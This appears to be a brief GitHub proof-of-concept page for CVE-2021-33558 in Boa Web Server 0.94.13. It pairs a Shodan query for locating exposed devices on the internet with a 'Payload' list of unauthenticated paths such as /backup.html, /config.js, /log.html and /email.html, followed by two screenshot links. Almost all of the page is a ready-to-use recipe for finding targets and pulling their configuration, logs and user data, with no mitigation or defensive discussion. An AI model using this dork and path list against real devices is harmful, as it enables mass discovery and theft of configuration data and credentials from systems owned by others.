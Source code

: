 # CVE-2021-33558

Reference: https://www.cvedetails.com/cve/CVE-2021-33558

Shodan dork: ```product:"Boa Web Server" 0.94.13```

Payload:

```
/backup.html
/preview.html
/js/log.js
/log.html
/email.html
/online-users.html
/config.js
```

POC:

![image](https://user-images.githubusercontent.com/101538840/204190349-ebe87daa-36fd-4503-b27d-663a1365332b.png)

![image](https://user-images.githubusercontent.com/101538840/204190426-e5bb359b-d5cc-4289-a150-493913673415.png)
